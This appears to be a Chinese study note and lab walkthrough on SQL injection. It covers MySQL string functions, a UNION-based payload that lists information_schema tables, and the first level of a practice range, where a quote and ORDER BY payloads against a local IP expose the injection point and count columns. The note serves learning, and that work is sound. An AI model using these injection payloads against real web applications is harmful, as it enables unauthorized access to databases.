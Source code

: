 ```text
+-----------------------------------+
| concat_ws('','M','y','S','Q','L') |
+-----------------------------------+
| MySQL                             |
+-----------------------------------+
```

### 使用 `group_concat()` 函数将多行连接成一组

```sql
SELECT GROUP_CONCAT(actor) 
FROM moviesdata.allmovies;
```

### SQL 注入示例

```sql
1'union select 1,table_name from information_schema.tables where table_schema='msgboard' -- qwe
```





# 靶场第一关

### 手动注入

- 首先来到这个页面传入参数``?id=1``,发现可以看到账号和密码,下面开始sql注入

![image-20240819181638969](C:\Users\24937\Desktop\学习\笔记\assets\image-20240819181638969.png)

- 传入单引号``'``,看看闭合是否会产生语法错误(这里很明显报错了),说明是存在sql注入的

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

您的 SQL 语法中有错误;检查与您的 MySQL 服务器版本相对应的手册，了解在第 1 行的 ''1'' LIMIT 0,1' 附近使用的正确语法
```

![image-20240819182100923](C:\Users\24937\Desktop\学习\笔记\assets\image-20240819182100923.png)

- 判断有sql注入以后,我们开始查看数据库有多少列(使用``order by 4--+``和``order by 3--+``,主要是使用``二分法``)

```http
http://192.168.77.131/master/Less-1/?id=1'order by 4--+
```

![image-20240819183029473](C:\Users\24937\Desktop\学习\笔记\assets\image-20240819183029473.png)

```http
http://192.168.77.131/master/Less-1/?id=1'order by 3--+
```

![image-20240819183302891](C:\Users\24937\Desktop\学习\笔记\assets\image-20240819183302891.png)
